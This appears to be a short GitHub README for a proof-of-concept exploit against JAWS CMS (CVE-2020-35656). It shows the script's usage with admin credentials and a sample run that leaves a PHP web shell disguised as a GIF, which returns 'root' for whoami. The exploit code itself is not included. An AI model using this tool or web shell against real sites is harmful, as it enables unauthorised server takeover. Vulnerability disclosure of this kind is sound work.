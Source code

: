 # Jaws-CMS-RCE CVE-2020-35656
Authenticated RCE JAWS CMS &lt;=1.8.0


python jaws-rce.py
[+]Usage python jaws-rce.py http://victim.com/ admin admin




python jaws-rce.py http://192.168.1.98/jaws-master/jaws-master/ jawsadmin admin



Shell Location=== http://192.168.1.98/jaws-master/jaws-master/data/files/cmd47.php?c=whoami



GIF89a

root




# Discoverer

Bassam Assiri https://twitter.com/BassamAssiri  https://www.linkedin.com/in/bassam-assiri-9418401ab/

# Special Thanks to:
Abdallah Fouad https://twitter.com/AbdallafouadX https://www.linkedin.com/in/abdallah-fouad/
